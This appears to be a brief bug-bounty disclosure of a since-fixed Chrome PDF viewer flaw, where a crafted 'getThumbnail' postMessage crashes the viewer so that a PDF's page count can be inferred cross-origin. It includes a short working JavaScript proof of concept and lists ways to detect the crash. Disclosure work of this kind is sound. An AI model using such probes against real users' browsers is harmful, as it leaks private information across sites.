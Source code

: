 ```yaml
---
title: PDF Page count leak (Awarded $500)
---
```


On chrome the PDF viewer has a message listener that's used for the cross-origin scripting API.  
By sending a message to the viewer with the type of `getThumbnail` and a page number that's greater then the number of available pages it would crash to prevent OOB access.

```js
let w = open(
  'https://www.w3.org/WAI/ER/tests/xhtml/testfiles/resources/pdf/dummy.pdf'
);
setTimeout(
  (_) => w[0].postMessage({type: 'getThumbnail', page: '1337'}, '*'),
  1000
);
```

This crash can be detected cross-origin in the following ways

- Checking device performance like with [devicemonitor](https://devicemonitor.glitch.me/) after `w[0].postMessage({type: 'print'});`
- [Issue 40828189](https://issues.chromium.org/issues/40828189)
- Extension tabs API looking for the status of unloaded (no permission needed)

This was fixed in [Issue 40059101](https://issues.chromium.org/issues/40059101)
